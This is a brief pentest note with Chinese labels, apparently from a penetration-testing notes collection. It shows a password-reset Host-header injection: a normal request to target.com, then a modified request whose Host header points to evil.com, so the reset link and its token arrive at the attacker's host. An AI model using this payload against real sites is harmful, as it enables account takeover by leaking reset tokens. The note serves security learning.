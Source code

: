 	正常请求
	Request:
	POST /password-reset?user=123 HTTP/1.1
	Host: target.com
	返回:
	https://target.com/reset-link=1g2f3guy23g
	改后
	Request:
	POST https://target.com/password-reset?user=123 HTTP/1.1
	Host: evil.com
	Link received:
	https://evil.com/reset-link=1g2f3guy23g
![image](/assets/Pentest_Note/master/img/712.png)